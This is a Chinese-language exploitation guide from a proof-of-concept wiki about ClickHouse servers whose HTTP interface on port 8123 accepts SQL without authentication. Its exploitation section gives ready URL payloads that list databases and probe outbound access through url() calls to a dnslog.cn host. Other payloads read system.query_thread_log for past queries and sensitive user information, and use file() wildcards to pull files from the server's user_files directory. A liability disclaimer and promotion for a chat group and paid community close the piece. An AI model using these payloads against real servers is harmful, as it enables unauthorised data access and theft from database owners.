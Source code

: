 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/xIc3Ic7N104iTogZul1LJA)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**默认情况下，clickhouse-server 会在 8123 端口上监控 HTTP 请求（这可以在配置中修改）。**

```
如果你发送了一个未携带任何参数的GET /请求，它会返回一个字符串 «Ok.»（结尾有换行）。可以将它用在健康检查脚本中。
如果你发送了一个未携带任何参数的GET /请求，它返回响应码200和OK字符串定义，可在Http服务响应配置定义(在末尾添加换行)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdIfEooBkHtZ5IRuFmviaX07WC9n1OWG0jpXQoPBYJGMDTFaV0ZPsGMpg/640?wx_fmt=png)

这里可以看到 ClickHouse 存在着的接口由于没有鉴权，则任意访问者都可以执行 SQL 语句获取数据

**二：利用方式🐑**

首先确定是否使用了 ClickHouse 数据库的接口

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTd84Aetgf9dDQyu5EOzB29ksib9ChuXlWYnEhz1fQdxSIFCHBmbr5H8FQ/640?wx_fmt=png)

**根据文档得知，正常返回为 Ok. , 且存在 X-ClickHouse-Summary 作为返回包的 Header**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdy5HPXibiaXZp0tPE9TtSI5pFp5O6meoZL4IW8RyoBLEAVEq09NhYMAvg/640?wx_fmt=png)

测试是否可以执行 SQL 命令, 部分会开启身份验证导致未授权执行失败

```
/?query=SHOW%20DATABASES
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdp5I0rAQMFOEDibCDt0kgSHPQ8vkxs5o8UCRBGPqrpmoUaHCQzZuA5Rg/640?wx_fmt=png)

成功执行语句获取数据，执行其他命令探测出网

```
/?query=SELECT%20*%20FROM%20url('http://jahl09.dnslog.cn','txt','column1%20UInt32')%20LIMIT%202
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdXhGGmPAhP2UhZDwP1QjfxJ1t4Q8UqutjibpMqVCEyc3dGfn3fic1kXkw/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdgKQjc1lvVS38MN4vhFI5fCGBEbRLcIJjSwNn5vkSlpMkvmVl84ynYA/640?wx_fmt=png)

其中也可以查看 system 库中的执行记录表来获取最近执行的所有 SQL 语句来快速定位可利用的信息

(获取敏感用户信息，数据库名以及数据表名)

```
/?query=SELECT%20*%20FROM%20system.query_thread_log
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdiab3icngq1LFdE0HUPNpYeufUDmtdqbwCDTX2dCn91SdyVmq4VMibbAdQ/640?wx_fmt=png)

由于默认配置中的可读路径默认 

(**配置文件位置：/etc/clickhouse-server/config.xml**)

因此只能读取下面路径中的文件，当目标中曾在该路径导入文件且没有删除的情况下，可通过测试获取敏感文件信息，获取数据文件

**/var/lib/clickhouse/user_files/**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTd4YjpulicT8f3hX29kHiaKJiclQKSDFEamRkQe3ACWNB19ZibjfMia24VreA/640?wx_fmt=png)

其中读取时可以利用通配符跳过不知道文件名的情况获取文件信息

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdKWXCxf98E7ScBJSlicia6b9wfZ2GkSVicm8G0NdWbr1oU3VWeibSrIRyDA/640?wx_fmt=png)

```
/?query=SELECT%20*%20FROM%20file('*'%2C%20'CSV'%2C%20'column1%20String%2C%20column2%20String%2C%20column3%20String')%20LIMIT%203%3B"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el747jKeLHLp9AibBMXuqNKTdjBEia1qOWI9bOuev8XG9NH1dpKPNQGnllscORQoeJ5o1xXZa28P9Wgw/640?wx_fmt=png)

 ****四:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**